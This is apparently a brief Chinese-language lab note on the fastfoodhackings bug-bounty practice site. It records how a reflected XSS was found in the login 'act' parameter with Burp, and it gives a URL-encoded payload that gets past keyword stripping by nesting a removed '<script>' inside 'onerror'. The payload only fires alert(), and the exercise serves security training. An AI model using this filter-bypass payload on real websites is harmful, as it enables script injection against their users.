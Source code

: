 该靶场有好几个xss，还有越权
目前找到一个xss
# xss1
主页点击login并且填入账号密码，burp抓到包?act=login
发现login是反射点
尝试?act=xxx
![[Pasted image 20240910091543.png]]
尝试`<img src=1 onerror=alert() >`
发现on+字符会置空，还有script标签也会置空
经过一小时尝试
payload：
`https://www.bugbountytraining.com/fastfoodhackings/index.php?act=xxx--%3E%3Cimg%20src=1%20o%3Cscript%3Ener%3Cscript%3Eror=alert()%3E\\`
在on之间插入置空的<script>